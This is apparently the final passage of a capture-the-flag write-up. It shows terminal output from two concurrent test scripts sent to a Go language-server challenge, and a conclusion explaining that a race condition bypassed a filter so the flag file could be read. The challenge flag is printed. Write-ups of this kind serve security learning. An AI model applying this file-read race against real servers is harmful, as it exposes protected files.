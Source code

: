```sh
{'id': 5, 'result': "🤠 YEEHAW! That line's wilder than a buckin' bronco!\n\nYour line:\n> ", 'jsonrpc': '2.0'}

Shutdown response: {'id': 6, 'result': None, 'jsonrpc': '2.0'}
```
 
File two (ran slightly before but at the same time as the above file):
 
```sh
[h@DESKTOP-TH1NKC3:~/Downloads]$ python test2.py
Host: 54.221.151.72
Port: 7003
Initialization response: {'id': 1, 'result': {'capabilities': {'textDocumentSync': 1, 'hoverProvider': True, 'renameProvider': True, 'completionProvider': {'resolveProvider': False, 'triggerCharacters': ['w', 'r', '_', 'f']}, 'executeCommandProvider': {'commands': ['wildwest.quickDraw']}}}, 'jsonrpc': '2.0'}
ExecuteCommand response: {'id': 4, 'result': '🤠 Loaded new config! Now prefix="a" minLen=1 enforce=true\n', 'jsonrpc': '2.0'}
Diagnostics response: {'jsonrpc': '2.0', 'method': 'textDocument/publishDiagnostics', 'params': {'uri': 'file:///test.go', 'diagnostics': [{'range': {'start': {'line': 12, 'character': 5}, 'end': {'line': 12, 'character': 73}}, 'severity': 2, 'message': "Wild West Warning: 'sheriff_says_12345ABCDE67890abcde12345ABCDE67890abcde12345ABCDE67890' should be renamed to 'asheriff_says_12345ABCDE67890abcde12345ABCDE67890abcde12345ABCDE67890_outlaw'.", 'source': 'WildWestCodeWrangler'}]}}
Diagnostics response: {'jsonrpc': '2.0', 'method': 'textDocument/publishDiagnostics', 'params': {'uri': 'file:///test.go', 'diagnostics': [{'range': {'start': {'line': 12, 'character': 5}, 'end': {'line': 12, 'character': 73}}, 'severity': 2, 'message': "Wild West Warning: 'sheriff_says_12345ABCDE67890abcde12345ABCDE67890abcde12345ABCDE67890' should be renamed to 'asheriff_says_12345ABCDE67890abcde12345ABCDE67890abcde12345ABCDE67890_outlaw'.", 'source': 'WildWestCodeWrangler'}]}}
ExecuteCommand response: {'jsonrpc': '2.0', 'method': 'window/showMessage', 'params': {'type': 3, 'message': "🤠 Howdy partner! That's some mighty fine syntax you got there!\n\nYour line:\n> PCTF{sh3riFF_$4y$_y0uR_c0D3_1$_cL34N_dd323724983c}"}}
{'id': 5, 'result': "🤠 Howdy partner! That's some mighty fine syntax you got there!\n\nYour line:\n> PCTF{sh3riFF_$4y$_y0uR_c0D3_1$_cL34N_dd323724983c}", 'jsonrpc': '2.0'}
Shutdown response: {'id': 6, 'result': None, 'jsonrpc': '2.0'}
```
# Conclusion
This was a golang LSP server with a custom command allowing for file reading under certain conditions. In order to bypass the filter disallowing the reading of the flag file we exploit a race condition and get the flag: 

 PCTF{sh3riFF_$4y$_y0uR_c0D3_1$_cL34N_dd323724983c}
